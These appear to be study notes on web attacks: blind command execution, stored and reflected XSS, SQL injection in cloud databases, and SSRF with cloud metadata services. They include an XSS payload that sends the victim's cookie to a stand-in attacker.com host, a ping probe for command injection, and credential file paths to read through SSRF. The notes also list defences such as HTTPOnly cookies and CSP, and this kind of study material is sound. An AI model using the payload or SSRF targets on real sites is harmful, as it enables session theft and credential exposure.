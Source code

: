 `ping -n 6 -w 1000 127.0.0.1` could trigger blind command execution

### XSS

- XSS is opportunistic, but with high probability (i.e., viewing triggers malicious code being executed)
- Type of XSS:
    - Stored: Insert information including malicious code into DB, and victims might see the malicious content
    - Reflected: Send crafted URL to victim or just past it somewhere, victims might click it
- Attacker's capability
    - Steal credentials by creating a fake login prompt
    - Take a screenshot within the browser
    - Redirect a form to the attacker
    - Deploy JavaScript cryptominer
    - Capture microphone, and camera
    - Internal port scanning
    - Add a web browser keystronger
    - Send Cookie (used by authentication) to attacker's server `<script>document.location='http://attacker.com/save.php?c=' + document.cookie</script>`
- Defending Techniques:
    - Filter special characters
    - Encode metacharacrter when output
    - WAF
    - **Cookie with `HTTPOnly` flag**: Forbid JavaScript access to cookie (`Secure` is forcing TLS connection when sent to server)
    - Presence of **Content-Security-Policy: default-src 'self'** header: Resources must be loaded only from the domain

### Cloud SQL is more frequent to be vulnerable to SQLi

- Conventional server systems is relatively safe thanks to ORM (Object Relation Moapping) systems, abstracting DB to developpers.
- Combination of cloud databases and serverless platform made a resurge of SQLi
- Developpers tends to avoid ORM due to performance issue in cloud environment

### SSRF (Server Side Request Forgery)

- Make the vulnerable server to do something not intended
- The target accessed via the vulnerable server might not be remote server, but could be local file such as /etc/shadow
- If the server is conventional server, go with passwrord. Hoever if in cloud, local file might not contain interesting information
    - `/etc/shadow` is not exciting for container or cloud VM
    - `/var/www/html/auth.config.js` is exciting
    - File permission is not exiting for cloud (everything runs with root)
    - Credentials are often stored in environmental variables: `/proc/NNN/environ`
- **IMDS** (Instance MetaData Service): Virtual endpoint in cloud services only accessible by local servers, could reveal IAM permission, hostname, SKU
    - Disclose credentials through IMDS attacks: AWS IMDSv1, DigitalOcean Droplets, Alibaba Cloud, others
    - Requires special headers for IMDS: Azure, Google Cloud Platform, AWS IMDSv2 (not default), and others
